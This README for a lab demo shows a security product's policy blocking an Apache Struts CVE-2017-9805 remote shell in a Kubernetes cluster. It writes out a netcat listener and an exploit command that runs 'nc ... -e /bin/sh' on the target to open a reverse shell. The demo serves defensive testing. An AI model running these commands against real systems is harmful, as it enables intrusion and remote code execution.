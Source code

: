 # Remote shell - struts exploit

This demo creates a remote shell using the Apache Struts CVE-2017-9805 Exploit

## Prep
make sure you have the following two variables set in  your `terraform.tfvars`.
```
install_guestbook = true
install_order     = true
```

The run
```
terraform apply
```

Make sure that you are using a `kubeconf` file that have access to default namespace in the demo cluster, you could use the `kubeconf` created when you ran the `terraform apply` command·
```
export KUBECONFIG=$(pwd)/kubeconf
```

## Demo
1. login to the super-app application, the link to the web app is provided in the `terrarom output`, and generate some traffic by refreshing the page, create a order, delete an order.

2. validate the policy group `nv.struts-orders.default` processes and network rules

3. put the policy group `nv.struts-orders.default` in `monitor mode`

4. note the ClusterIP for the kali workload
```
kubectl get service/kali
```

5. open a terminal and create a reverse shell in the kali pod
```
kubectl exec -it $(kubectl get pods --selector=app=kali-kali --template "{{range .items}}{{.metadata.name}}{{\"\n\"}}{{end}}") -- nc -lvp 1337
```

6. open another terminal and execute the RCE payload in the kali workload
```
python3 /payloads/struts-pwn2.py --exploit --url 'http://orders.16.16.179.1.sslip.io/super-app/orders/3' -c 'nc -nv X.X.X.X 1337 -e /bin/sh
```
where `X.X.X.X` is the IP to the kali service you got in step 4

7. In the recerse shell type some commands, like prove you are root with `whoami`

8. Put the policy group `nv.struts-orders.default` in protect mode and see that it is now protected and it's no longer possible to execute commands in the reversed shell
